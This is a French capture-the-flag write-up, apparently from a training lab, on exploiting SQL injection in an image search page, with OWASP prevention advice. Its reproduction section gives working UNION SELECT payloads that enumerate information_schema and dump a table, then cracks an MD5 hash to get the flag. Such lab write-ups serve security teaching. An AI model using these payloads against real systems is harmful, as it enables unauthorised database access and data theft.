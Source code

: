 # SQL Injection


## URL

/index.php?page=searchimg

## Description

Une attaque par injection SQL consiste à insérer une requête SQL via les données envoyées par le client à l'application. </br>
Une exploitation réussie permet de lire, modifier ou supprimer des données de la base, d'exécuter des opérations d'administration (comme arrêter le SGBD), d'accéder à des fichiers du système ou, dans certains cas, de lancer des commandes sur le système d'exploitation. Les attaques par injection SQL font partie des attaques par injection, où des commandes SQL sont insérées dans les entrées de données pour affecter l'exécution de commandes SQL prédéfinies.
Les attaques par injection SQL permettent aux attaquants de falsifier des identités, manipuler des données, annuler des transactions, divulguer ou détruire des données, ou devenir administrateurs du serveur de base de données. Elles sont fréquentes dans les applications PHP et ASP en raison des interfaces fonctionnelles anciennes. Les applications J2EE et ASP.NET sont moins vulnérables. La gravité de ces attaques dépend des compétences de l'attaquant, mais reste généralement élevée, malgré les mesures de défense. </br>
[Lien OWASP SQL injection](https://owasp.org/www-community/attacks/SQL_Injection)

## Se protéger

1. Utiliser des requêtes préparées (avec paramètres) : Cette méthode sépare les données du code SQL, empêchant ainsi toute modification malveillante des requêtes.
2. Recourir à des procédures stockées sécurisées : Elles permettent d'exécuter des commandes SQL prédéfinies de manière sécurisée, à condition qu'elles ne construisent pas dynamiquement des requêtes avec des entrées non sécurisées.
3. Valider les entrées utilisateur : Appliquer une validation stricte (par exemple, via des listes blanches) pour s'assurer que les données reçues correspondent aux formats attendus, réduisant ainsi le risque d'injection.
4. Limiter les privilèges des comptes de base de données : Attribuer uniquement les permissions nécessaires aux comptes utilisés par l'application, minimisant ainsi l'impact potentiel d'une injection réussie.
5. Éviter l'échappement manuel des entrées : Cette pratique est déconseillée car elle est sujette à des erreurs et peut être insuffisante pour prévenir toutes les formes d'injection.

[Lien OWASP Injection prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
[Lien OWASP Query Parameterization Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Query_Parameterization_Cheat_Sheet.html)

## Reproduire la faille

on nous demande d'entrer un identifiant numérique qui correspond au numéro d'une image, probablement un INTEGER.
même procédé que pour la page de membres. D’ailleurs nous retrouvons les mêmes données, il faut simplement qu’on regarde une autre table.

Si on entre 5 on peut voir :

```sql
ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

Tenter cette commande pour afficher des indices sur les tables : `1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;`
list_images semble pas mal :

```sql
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;
Title: id
Url : list_images
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;
Title: url
Url : list_images
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;
Title: title
Url : list_images
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns;
Title: comment
Url : list_images
```

Afficher des informations pour cette table : `1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images`

```sql
ID: 1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
Title: https://fr.wikipedia.org/wiki/Programme_NsaAn image about the NSA !
Url : 1
ID: 1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
Title: https://fr.wikipedia.org/wiki/Fichier:4242 !There is a number..
Url : 2
ID: 1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
Title: https://fr.wikipedia.org/wiki/Logo_de_GoGoogleGoogle it !
Url : 3
ID: 1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
Title: https://en.wikipedia.org/wiki/Earth#/medEarthEarth!
Url : 4
ID: 1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
Title: borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 5
```

## Déchiffrer le flag

Décoder depuis [dcode.fr](https://www.dcode.fr/hash-md5):
Déchiffrement du hash MD5 `1928e8083cf461a51303633093573c46` : **albatroz**
Chiffrer `albatroz` en sha256 : `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

